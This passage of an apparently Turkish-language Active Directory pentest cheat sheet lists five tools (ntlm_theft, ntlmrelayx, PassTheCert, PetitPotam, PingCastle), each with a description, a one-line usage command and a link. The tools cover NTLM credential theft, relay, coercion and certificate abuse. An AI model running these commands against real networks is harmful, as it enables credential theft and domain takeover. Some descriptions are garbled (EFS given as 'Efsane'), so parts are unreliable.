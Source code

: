 
## 52. ntlm_theft
**Kısa Tanım**: HTTP/SMB istekleri üzerinden NTLM kimlik bilgilerini çalmayı otomatikleştiren script.  
**Usage**:
```bash
python3 ntlm_theft.py --interface eth0
```
**GitHub**: [Araştırınız]

---

## 53. ntlmrelayx
**Kısa Tanım**: Impacket altındaki NTLM relay aracı (SMB->LDAP, MSSQL vb.). Kimlik bilgilerini relay ederek yetki yükseltmeye yarar.  
**Usage**:
```bash
sudo python3 ntlmrelayx.py -tf targets.txt -smb2support
```
**GitHub**: [https://github.com/fortra/impacket/blob/master/ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/ntlmrelayx.py)

---

## 54. PassTheCert
**Kısa Tanım**: AD sertifikasını (pfx) kullanarak kimlik doğrulama (Pass-the-Cert) PoC aracı.  
**Usage**:
```powershell
.\PassTheCert.exe /certificate:admin.pfx /command:"powershell whoami"
```
**GitHub**: [https://github.com/0xbadjuju/PassTheCert](https://github.com/0xbadjuju/PassTheCert)

---

## 55. PetitPotam
**Kısa Tanım**: Efsane RPC kullanarak (EfsRpcOpenFileRaw) DC NTLM kimlik doğrulamasını tetikleyip relay yapan PoC.  
**Usage**:
```bash
python3 petitpotam.py target_dc 10.0.0.10
```
**GitHub**: [https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)

---

## 56. pingcastle
**Kısa Tanım**: AD “Health Check” aracı. Domain yapılandırmasını analiz eder, risk skorunu raporlar.  
**Usage** (Mono/Wine):
```bash
PingCastle.exe --healthcheck --server dc01.domain.local
```
**GitHub**: [https://github.com/vletoux/pingcastle](https://github.com/vletoux/pingcastle)

---